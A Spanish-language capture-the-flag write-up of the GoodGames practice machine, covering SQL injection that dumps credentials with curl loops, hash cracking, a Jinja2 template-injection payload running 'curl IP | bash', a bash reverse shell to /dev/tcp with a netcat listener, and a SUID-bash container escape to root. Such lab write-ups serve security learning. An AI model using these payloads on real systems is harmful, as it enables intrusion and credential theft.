






## Enumeración

La enumeración con nmap en esta máquina es muy básica, solo nos muestra el nombre del host **_goodgames.com_** y nos reporta el puerto 80 corriendo un Apache 2.4.51. Intenté numerar rutas comunes pero parece estar protegido con un [catch-all route](# "Protección que hace que todas las rutas devuelvan 200 OK aunque no existan").  
Existen varias maneras de filtrar esto, ya sea poniendo una frase que se repita en el RAW o con técnicas similares, pero en este caso no era necesario.  

Encontramos un sign-in que, aunque no es vulnerable a un bypass directo mediante [SQLi](# "Vulnerabilidad que permite inyectar consultas maliciosas en una aplicación que usa bases de datos, posibilitando leer, modificar o borrar información de forma no autorizada."), sí nos permite listar la base de datos (_me costó un rato darme cuenta de esto_).

###### Para efectuar la SQLi 

- Primero tenemos que capturar el sign-in con [Burp Suite](# "Herramienta de seguridad que actúa como proxy, utilizada para analizar y atacar aplicaciones web, que permite interceptar, modificar y automatizar solicitudes y respuestas HTTP en pruebas de penetración.") y en el campo del _email_ empezamos a probar si se genera un error o algún comportamiento extraño.


<span style="font-size:12px">_"En el ejemplo de la imagen detectamos que la base de datos tiene 4 columnas, me basé en el **Length**: cuando es correcto da un total de 9267, cuando es erróneo 33490."_</span>

- Una vez que ya sabemos cuántas columnas tiene, podemos seguir con nuestra enumeración:

```SQL
email=admin%40admin.com' union select 1,2,3,4-- -&password=admin
```
Con esta query podemos loguearnos como el usuario que pongamos en la cuarta columna, pero dentro no había nada de interés, así que procedemos a investigar más a fondo la base de datos.

- Fijé el auto-scroll en la palabra **Welcome** ya que desde ahí podía ver todas las consultas que lanzaba desde la columna 4.


<span style="font-size:12px">_"Aquí vemos cómo filtra el nombre atr4x y más adelante nos permite listar columnas, tablas,etc."_</span>

- Procedemos a listar las tablas:

```SQL
email=admin%40admin.com' union select 1,2,3,table_name from information_schema.tables-- -&password=admin
```


Ver las consultas desde BurpSuite me parece lo peor, no entiendo nada y no se ve nada a si que dejo aca abajo un script para jugar con la base de datos.

###### Script para enumerar la base de datos

```bash
for i in $(seq 0 90);do echo "-Tabla= $i: $(curl -s -X POST http://goodgames.htb/login --data "email=admin@admin.com' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=admin" | grep 'Welcome' | awk 'NF{print $3}' | awk -F '<' '{print $1}')";done
```
Con esto ya podíamos listar las bases de datos con comodidad.



Encontramos una tabla interesante: **user**. Seguimos listando ahora sus columnas:

```bash
for i in $(seq 0 10);do echo "-Columna= $i: $(curl -s -X POST http://goodgames.htb/login --data "email=admin@admin.com' union select 1,2,3,column_name from information_schema.columns where table_name='user' limit $i,1-- -&password=admin" | grep 'Welcome' | awk 'NF{print $3}' | awk -F '<' '{print $1}')";done
```


Ahora sí, con las columnas deseadas listamos credenciales y usuario:  

```bash
for i in $(seq 0 90);do echo "Credenciales= $i: $(curl -s -X POST http://goodgames.htb/login --data "email=admin@admin.com' union select 1,2,3,concat(email,0x3a,password) from user-- -&password=admin" | grep 'Welcome' | awk 'NF{print $3}' | awk -F '<' '{print $1}')";done
```
Esto nos da un correo y un hash de contraseña que podemos romper con John rápidamente:

**Credenciales= 0: admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec**

##### Rompiendo el hash

Para esto usamos la herramienta **John the Ripper**, intentando romper el hash con un diccionario:

```bash
john --format=Raw-MD5 --wordlist=rockyou.txt hash
```
<span style="font-size:12px">_Si ves el mensaje “Loaded 1 password hash...”, ejecuta el siguiente comando:_</span>

```bash
john --show --format=Raw-MD5 hash
```
<span style="font-size:12px">_Esto mostrará la contraseña en texto plano._</span>

**superadministrator** → Con estas credenciales accedemos al panel administrativo.

## Explotación

Una vez dentro del panel, debemos añadir **internal-administration.goodgames.htb** a nuestro `/etc/hosts` para que cargue correctamente.  

En la sección de ajustes encontramos que el campo “nombre” es vulnerable a [SSTI](# "Server-Side Template Injection: vulnerabilidad que ocurre cuando la entrada del usuario se evalúa directamente en el motor de plantillas del servidor, permitiendo manipulación de vistas o incluso ejecución remota de código (RCE).").  
Probamos con **{{9*9}}** y, en vez de mostrar la cadena, devuelve **81** → claramente es vulnerable.  



Para lograr un RCE podemos usar [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution).  
Un payload útil sería:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl IP | bash').read() }}
```

- Creamos un archivo **index.html** con nuestra reverse shell:
```bash
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

- Montamos un servidor Python:
```bash
python3 -m http.server 80
```

- Y nos ponemos en escucha con Netcat:
```bash
nc -nlvp PORT
```

Con esto cuando le demos a Save All obtendremos una reverse shell la cual nos tendra en un contenedor.

###### Escapando del contenedor

Al enumerar  la máquina inicial solo corría el puerto 80, así que escaneé el gateway en busca de más puertos.  

```bash
for i in {1..65535}; do echo > /dev/tcp/Gateway-IP/$i && echo "[+] Puerto $i abierto"; done
```

<span style="font-size:12px">"_Para saber la IP del gateway ejecutando ifconfig. Como Docker asigna el *.1 al host dentro de la red bridge, simplemente cambié el último octeto de mi dirección por 1._"</span>

El script reporta que esta corriendo el puerto 22(SSH) y el 80(HTTP), parce que esta utilizando port forwarding, estan reutilizando credenciales en absolutamente todo a si que podemos ganar acceso como el usuario augustus via ssh.

### Escalada de privilegios 

Al entrar en el contenedor notamos que podíamos ver los archivos del host principal. Esto indica que la ruta `/home/augustus` estaba montada en el contenedor.  
La idea fue copiar nuestra `/bin/bash` al home de augustus, darle permisos SUID y cambiar el usuario a root desde el contendor.  

```bash
root@docker:/home/augustus# chown root:root bash
root@docker:/home/augustus# chmod 4755 bash
root@docker:/home/augustus# ssh augustus@172.19.0.1
augustus@GoodGames:~$ ./bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
```

## Reflexión

Sin duda una máquina muy divertida que combina varios conceptos y resulta muy educativa si estás empezando.  
Sirve mucho para practicar scripting en bash, repasar escapes de contenedor, inyecciones SQL, SSTI y escalada de privilegios.  
Aunque la privesc era evidente, si no tienes una base sólida de conceptos cuesta llegar a la solución.  

# FIN
